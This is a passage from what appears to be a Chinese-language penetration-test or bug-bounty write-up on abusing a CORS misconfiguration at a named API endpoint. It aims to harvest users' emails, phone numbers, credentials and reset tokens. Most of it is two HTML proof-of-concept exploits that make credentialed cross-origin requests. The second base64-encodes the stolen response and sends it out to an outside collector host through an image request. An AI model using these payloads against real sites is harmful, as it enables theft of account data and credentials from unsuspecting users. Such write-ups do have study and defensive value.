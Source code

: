 3. 发现一个接口可以查看已登录用户的详细信息

```
https://api.artsy.net/api/user_details/
```

使用geekboy分享的exp来检测，看看能不能导出用户的id，注册日期，邮箱，手机号，用户凭证，重置密码凭证，收藏品，用户设备等用户信息。

**geekboy:**

```html
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://target.com/userinfo/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 
</body>
</html>
```

**new Image().src**

```html
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>

<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      new Image().src="http://cors.reiwgah.exeye.io/" + window.btoa(unescape(encodeURIComponent(this.responseText)))
    }
  };
  xhttp.open("GET", "http://www.pxc.local/master/rolePage/search?page=1&roleCd=1&desc=&pageCode=qx02&_=1531712664191", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
```